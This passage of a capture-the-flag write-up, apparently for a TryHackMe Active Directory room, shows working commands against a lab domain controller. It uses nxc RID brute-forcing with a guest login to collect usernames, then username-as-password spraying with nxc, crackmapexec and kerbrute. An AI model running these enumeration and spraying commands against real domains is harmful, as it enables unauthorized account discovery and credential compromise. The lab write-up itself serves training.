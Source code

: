 Extract usernames from the output (removing domain prefixes and extra info), and saves them into `rids.txt`
```sh
nxc smb DC01.SOUPEDECODE.LOCAL -u 'guest' -p '' --rid-brute 2500 | cut -d '\' -f 2 | cut -d ' ' -f 1 > rids.txt
```
{: .wrap }

---

## User Flag

### Password Spraying

Using <a href="https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html" target="_blank">ASREPRosting</a> and spraying the common password yielded no results.
Spraying "username=password" succeeded, revealing valid credentials for user `ybob317`

#### option | nxc
```sh
nxc smb DC01.SOUPEDECODE.LOCAL -u rids.txt -p rids.txt --no-bruteforce --continue-on-success
```

![](/images/TryHackMe/Soupedecode01/ybob.png)

---

#### option || crackmapexec
same nxc
```sh
crackmapexec smb DC01.SOUPEDECODE.LOCAL -u rids.txt -p rids.txt --no-bruteforce --continue-on-success
```

---
 
#### option ||| kerbrute

```sh
kerbrute passwordspray --user-as-pass -d SOUPEDECODE.LOCAL --dc DC01.SOUPEDECODE.LOCAL rids.txt -v
```

---
